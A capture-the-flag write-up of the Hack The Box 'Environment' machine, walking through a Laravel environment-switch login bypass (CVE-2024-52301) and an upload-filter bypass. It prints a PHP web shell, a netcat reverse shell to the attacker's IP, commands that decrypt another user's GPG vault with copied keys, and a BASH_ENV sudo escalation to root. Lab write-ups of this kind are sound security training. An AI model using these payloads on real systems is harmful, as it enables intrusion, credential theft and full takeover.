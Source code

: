 ```yaml
---
title: "Environment - Hack The Box"
summary: "Difficulty: Medium 🟠"
---
```


<style>

h6 {
  text-align: center;
  font-style: italic;
  font-weight: normal;
  position: relative;
  top: -10px;
}

img {
    display: flex !important;
    margin: 0 auto !important;
    justify-content: center !important;
    border-radius: 14px;
    border: 2px solid #4a90e2;
    box-shadow: 0 2px 6px rgba(0, 0, 0, 0.1);
    transition: box-shadow 0.3s ease, transform 0.3s ease;
}
img:hover {
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
    transform: scale(1.03);
}

</style>

To start, we will perform a **quick port scan** using the [**Nmap**](https://nmap.org/) tool to see which ports are open.

```
sudo nmap -sS -p- -n -Pn -vvv 10.10.11.67
```

![1](/images/writeups/environment/1.png)

Knowing that ports **22** and **80** are open, we will perform a more **detailed scan** on these.

```
sudo nmap -sCV -p22,80 -n -Pn 10.10.11.67 -oN target
```

![2](/images/writeups/environment/2.png)

When accessing the website, we don’t see much.

> 📝**NOTE**: I have added the domain **environment.htb** with its **IP** in ***/etc/hosts***.

![3](/images/writeups/environment/3.png)

Therefore, we will **enumerate directories** and **files** using [**Feroxbuster**](https://github.com/epi052/feroxbuster) to see what might be hidden on the web.

```
feroxbuster -u http://environment.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50 --filter-status 403,404
```

![4](/images/writeups/environment/4.png)

When accessing ***/upload***, we see **code errors** and that the website uses [**Laravel**](https://laravel.com/) (a **PHP framework**) with a version that is **vulnerable**. [**CVE-2024-52301**](https://github.com/Nyamort/CVE-2024-52301)

![5](/images/writeups/environment/5.png)

This vulnerability allows an attacker to **make the application think it is running in a different environment** (like “**production**” or “**development**”) using the **URL**, which can change what is displayed on the website.
We will test it with:

```
http://environment.htb/?--env=test
```

![6](/images/writeups/environment/6.png)

We continue exploring other paths to see if we can find something more useful.

The interesting part is found on the ***/login*** page.

![7](/images/writeups/environment/7.png)

If we intercept the request with [**Burp Suite**](https://portswigger.net/burp/communitydownload) and leave the “**remember**” field empty, submitting the request will trigger a code error.

![8](/images/writeups/environment/8.png)

![9](/images/writeups/environment/9.png)

As we can see, if we change the **environment** to “**preprod**”, it gives us a session as the **user with ID 1** and redirects us to ***/management/dashboard***. Since **Laravel** is vulnerable to changing the environment name, we can access it without issues.

![10](/images/writeups/environment/10.png)

![11](/images/writeups/environment/11.png)

We are logged in as **Hish**, but we don’t find any direct way to access the machine. For now, the only available **attack vector** is **uploading Hish’s profile picture**.

![12](/images/writeups/environment/12.png)

First, we test if we can **upload an image**, and it works without issues.

![13](/images/writeups/environment/13.png)

Now, the challenge is to **upload a malicious file** that allows **code execution**, making it appear as an image to the website, even though it actually contains **PHP code**.

We could try uploading the following code, which would allow us to execute commands remotely and even establish a reverse shell:

```
<?php
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

![14](/images/writeups/environment/14.png)

![15](/images/writeups/environment/15.png)

We managed to upload it by bypassing with "**cmd.php.**". This probably works because **the upload filter only checks the final extension**, and by adding the extra dot, the file passes validation, even though **PHP** interprets it normally. Now we can try executing commands on the server through the uploaded file’s **URL**.

![16](/images/writeups/environment/16.png)

We execute a **Reverse Shell** and access the machine.

```
http://environment.htb/storage/files/cmd.php?cmd=nc -c /bin/bash 10.10.14.32 4444
```

![17](/images/writeups/environment/17.png)

## Privilege escalation to Hish

If we navigate to **hish**’s folder, we can read the **User Flag**. We also see a folder called **backup**.

![18](/images/writeups/environment/18.png)

Inside the **backup** folder, there is a file called ***keyvault.gpg***, which is an **encrypted GPG file** that could contain sensitive information such as **keys**, **passwords**, or important **configuration data**.

![19](/images/writeups/environment/19.png)

A user’s **GPG keys** are usually stored in their home directory, inside a hidden folder called **.gnupg**. This folder contains both **public and private keys**, the trust database, and **GPG configuration**. Only the owning **user** and **root** should normally have access.

![20](/images/writeups/environment/20.png)

This is **vulnerable** because the **.gnupg** directory has too permissive permissions, **any user on the system can read its contents and enter it**, even if they cannot modify it. Since **private keys** and sensitive GPG data are stored here, these permissions allow us to finally extract the contents of ***keyvault.gpg***.

To do this, we copy the entire **.gnupg** content to a directory where we have write permissions, such as ***/tmp***, and then we can use that directory as the `--homedir` for the **gpg** command. This allows us to access the user’s keys and perform **encryption** or **decryption** operations without being the original directory owner.

```
cd /tmp && mkdir gnupg
cp -r /home/hish/.gnupg/* ./gnupg
gpg --homedir=./gnupg -d /home/hish/backup/keyvault.gpg 
```

![21](/images/writeups/environment/21.png)

And we succeed in getting the **password** for the user **Hish** on this machine.

## Privilege escalation to Root

Running `sudo -l`, we see that we can execute the ***systeminfo*** script as any user without needing to provide a password.

![22](/images/writeups/environment/22.png)


Script contents:

```
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

As we can see, this script doesn’t contain anything interesting and doesn’t allow privilege escalation. The interesting part is the `BASH_ENV` variable, which *Bash* uses to run a script when starting a shell that is non-interactive, that is, a shell that runs commands automatically without the user typing them. Since **sudo** preserves this variable, we can point it to our own script, and when we run `sudo /usr/bin/systeminfo`, **Bash** will execute our script **with root privileges**.

We create a **Bash script** in **Hish**’s home directory with the following content:

```
#!/bin/bash
/bin/bash
```

Then we assign the BASH_ENV variable pointing to our script:

```
export BASH_ENV=/home/hish/root.sh
```

When we execute `sudo /usr/bin/systeminfo`, **Bash** will automatically load our script, and we obtain a **shell** with **root** privileges.

![23](/images/writeups/environment/23.png)

We get the **Root Flag** and **complete the machine**!!